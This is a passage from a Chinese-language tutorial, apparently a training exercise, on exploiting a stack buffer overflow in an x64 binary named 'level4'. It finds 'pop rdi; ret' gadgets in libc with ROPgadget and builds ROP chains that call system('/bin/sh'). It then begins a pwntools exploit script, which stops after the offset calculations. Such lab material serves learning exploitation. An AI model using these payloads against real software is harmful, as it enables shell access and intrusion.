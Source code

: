 #!bash
gcc -fno-stack-protector level4.c -o level4 -ldl
首先目标程序会打印system()在内存中的地址，这样的话就不需要我们考虑ASLR的问题了，只需要想办法触发buffer overflow然后利用ROP执行system(“/bin/sh”)。但为了调用system(“/bin/sh”)，我们需要找到一个gadget将rdi的值指向“/bin/sh”的地址。于是我们使用ROPGadget搜索一下level4中所有pop ret的gadgets。

#!bash
$ ROPgadget --binary level4 --only "pop|ret" 
Gadgets information
============================================================
0x00000000004006d2 : pop rbp ; ret
0x00000000004006d1 : pop rbx ; pop rbp ; ret
0x0000000000400585 : ret
0x0000000000400735 : ret 0xbdb8
结果并不理想，因为程序比较小，在目标程序中并不能找到pop rdi; ret这个gadget。怎么办呢？解决方案是寻找libc.so中的gadgets。因为程序本身会load libc.so到内存中并且会打印system()的地址。所以当我们找到gadgets后可以通过system()计算出偏移量后调用对应的gadgets。

#!bash
$ ROPgadget --binary libc.so.6 --only "pop|ret" | grep rdi
0x000000000001f27d : pop rdi ; pop rbp ; ret
0x00000000000205cd : pop rdi ; pop rbx ; pop rbp ; ret
0x0000000000073033 : pop rdi ; pop rbx ; ret
0x0000000000022a12 : pop rdi ; ret
这次我们成功的找到了“pop rdi; ret”这个gadget了。也就可以构造我们的ROP链了。

#!bash
payload = "\x00"*136 + p64(pop_ret_addr) + p64(binsh_addr) + p64(system_addr)
另外，因为我们只需调用一次system()函数就可以获取shell，所以我们也可以搜索不带ret的gadgets来构造ROP链。

#!bash
$ ROPgadget --binary libc.so.6 --only "pop|call" | grep rdi
0x000000000012da1d : call qword ptr [rdi]
0x0000000000187113 : call qword ptr [rdx + rdi + 0x8f10001]
0x00000000000f1f04 : call rdi
0x00000000000f4739 : pop rax ; pop rdi ; call rax
0x00000000000f473a : pop rdi ; call rax
通过搜索结果我们发现，0x00000000000f4739 : pop rax ; pop rdi ; call rax也可以完成我们的目标。首先将rax赋值为system()的地址，rdi赋值为“/bin/sh”的地址，最后再调用call rax即可。

#!python
payload = "\x00"*136 + p64(pop_pop_call_addr) + p64(system_addr) + p64(binsh_addr)
所以说这两个ROP链都可以完成我们的目标，随便选择一个进行攻击即可。最终exp如下：

#!python
#!/usr/bin/env python
from pwn import *

libc = ELF('libc.so.6')

p = process('./level4')
#p = remote('127.0.0.1',10001)

binsh_addr_offset = next(libc.search('/bin/sh')) -libc.symbols['system']
print "binsh_addr_offset = " + hex(binsh_addr_offset)

pop_ret_offset = 0x0000000000022a12 - libc.symbols['system']
print "pop_ret_offset = " + hex(pop_ret_offset)
